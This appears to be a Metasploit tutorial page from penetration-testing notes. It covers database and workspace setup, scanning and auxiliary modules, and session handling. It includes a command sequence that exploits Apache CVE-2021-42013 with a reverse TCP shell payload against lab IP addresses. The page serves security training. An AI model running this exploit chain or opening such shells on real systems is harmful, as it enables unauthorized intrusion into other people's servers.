 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# 101

## Setup

### Database

**Metasploit Framework (MSF)** in Kali Linux doesn't start its database (PostgreSQL) by default, but it’s useful for storing target data and tracking exploits.

```bash
# Initialize database
sudo msfdb init

# Start PostgreSQL service
sudo service postgresql start

# Launch MSF Console
sudo msfconsole -q

# Check database connection
msf6 > db_status
[*] Connected to msf. Connection type: postgresql.
```

### Workspaces

MSF uses **workspaces** to separate different tests and avoid data mix-up.

```bash
# Check current workspace
msf6 > workspace

# Create a new workspace
msf6 > workspace -a test_ws
[*] Added workspace: test_ws

# Switch to a specific workspace
msf6 > workspace test_ws
[*] Workspace: test_ws

# Check current workspace again
msf6 > workspace
  default
* test_ws
```

Scan results will now be saved in the selected workspace.

```bash
# Scan target
msf6 > db_nmap -A 192.168.50.202

# List discovered hosts
msf6 > hosts

# List discovered services
msf6 > services

# List hosts with port 445 (e.g., SMB service)
msf6 > services -p 445
```

## Modules

MSF includes **modules** for various purposes, categorized for ease of use.

```bash
# List module categories
msf6 > show -h
```

### Auxiliary

**Auxiliary modules** perform tasks like scanning, fuzzing, and enumeration.

```bash
# List all auxiliary modules
msf6 > show auxiliary

# Filter modules by type
msf6 > search type:auxiliary smb

# Filter by name (e.g., SMB version scanner)
msf6 > search smb_version

# Use a specific module
msf6 > use 0

# View module info
msf6 auxiliary(scanner/smb/smb_version) > info

# List module options
msf6 auxiliary(scanner/smb/smb_version) > show options

# List required options
msf6 auxiliary(scanner/smb/smb_version) > show missing

# Set required options
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 192.168.50.202

# Run module
msf6 auxiliary(scanner/smb/smb_version) > run
```

### Exploit

**Exploit modules** in MSF target specific vulnerabilities in applications or services. Key Features:

* **Database Integration**: Automatically tracks targets, services, and vulnerabilities.
* **Reliability**: Repeatable sessions for stable access.
* **Payload Flexibility**: Users can select payloads based on the exploit.

{% code overflow="wrap" %}
```bash
# Create a workspace for exploits
msf6 > workspace -a exploits
msf6 > workspace exploits

# Set target host
msf6 > setg RHOSTS 192.168.225.16

# Search for CVE-2021-42013 exploit
msf6 > search CVE-2021-42013

# Select exploit module
msf6 > use 0

# Configure payload and options
msf6 exploit(multi/http/apache_normalize_path_rce) > set LHOST 192.168.45.242
msf6 exploit(multi/http/apache_normalize_path_rce) > set SSL false
msf6 exploit(multi/http/apache_normalize_path_rce) > set RPORT 80
msf6 exploit(multi/http/apache_normalize_path_rce) > set payload linux/x64/shell_reverse_tcp

# Run exploit
msf6 exploit(multi/http/apache_normalize_path_rce) > run
```
{% endcode %}

## Sessions & Jobs

**Sessions** manage interactions with successfully exploited targets. **Jobs** run in the background.

```bash
# Background the current session
^Z
Background session 1? [y/N] y

# List active sessions
msf6 > sessions -l

# Interact with a session
msf6 > sessions -i 1

# Close a session
msf6 > sessions -k 1
```
